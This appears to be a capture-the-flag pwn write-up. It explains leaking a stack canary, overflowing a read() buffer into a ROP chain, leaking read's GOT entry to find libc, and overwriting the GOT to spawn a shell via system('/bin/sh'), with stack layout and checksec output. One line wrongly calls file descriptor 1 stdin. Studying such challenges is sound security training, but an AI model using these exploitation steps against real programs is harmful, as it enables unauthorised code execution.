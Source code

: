 **Read source code**
- `printf("Buf: %s\n", buf);`: leak canary
- `read(0, buf, 0x100);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x40)
canary (rbp-0x8)
rdi -> 1
rsi -> read_got
r15 -> 0
write_plt
---
rdi -> 0
rsi -> read_got
r15 -> 0
read_plt
---
rdi -> read_got+8
ret
read_plt
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
- Then overwrite GOT of `read` with `system` and `/bin/sh`
---  
***EPLOIT***
```
write(1, read_got,)
read(0, read_got,)
read(read_got + 0x8)
```
- Follows the System V AMD64 ABI function calling convention, where:
  + rdi contains the first parameter (file descriptor, e.g. 0 for stdin, 1 for stdin)
  + rsi contains the second parameter (buffer to store the read data)
  + rdx contains the third parameter (number of bytes to read)
  + stack have to be 16 bytes before call (we usually put `ret` before call)
- Luckyly, when debug, rdx is set at 0x100, so we just need to change rdi and rsi
- Get address of read_got by `write(1, read_got,)`
- Calculate `libc_base = read - read_offset`
- Calculate `system = libc_base + system_offset`
- Overwrite address of `read_got` with `system + binsh` by using `read(0, read_got,)`
- Call `system("/bin/sh")` by `read(read_got + 0x8)`
  + `read_got + 0x8` is `/bin/sh`
- Remember to use `pwninit` to patch binary and library (libc.so.6) to run program properly with desired environment
